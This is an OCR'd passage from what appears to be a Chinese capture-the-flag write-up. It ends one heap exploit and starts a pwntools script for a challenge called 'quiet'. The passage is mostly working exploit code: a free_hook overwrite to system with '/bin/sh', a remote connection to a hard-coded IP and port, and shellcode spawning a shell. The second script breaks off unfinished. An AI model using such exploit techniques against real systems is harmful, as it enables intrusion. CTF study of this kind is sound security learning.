 ```
system_addr=libc_base+0x3F2C8
pause()

payload='\x00'*0x90+p64(0)+p64(0x41)+p64(free_hook)
sh.send(payload.ljust(0xd0,'\x00'))
sh.send('\x00'*0x30)
sh.send(p64(system_addr))
pause()
sh.send("/bin/sh\x00")
sh.interactive()
```

### <a class="reference-link" name="quiet"></a>quiet

用5和1的函数把shellcode写入，再用9跳转即可

exp:

```
#! python3
#coding:utf-8

from pwn import *
import subprocess, sys, os
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)

elf_path = './quiet'
ip = '8.140.179.11'
port = 51322
remote_libc_path = '/lib/x86_64-linux-gnu/libc.so.6'

context(os='linux', arch='aarch64')
context.log_level = 'debug'

local = 0
if local == 1:
    p = process(elf_path)
else:
    p = remote(ip, port)

def debug(cmd):
    gdb.attach(p,cmd)
    pause()

def one_gadget(filename = remote_libc_path):
    return map(int, subprocess.check_output(['one_gadget', '--raw', filename]).split(' '))

def chose(idx):
    key = `{`0:8,
        35:5,
        40:0,
        41:1,
        42:2,
        47:3,
        64:4,
        71:9,
        91:6,
        93:7`}`
    for i in key:
        if key[i] == idx:
            return p8(i)
shellcode = asm(shellcraft.sh())
payload = b''
```
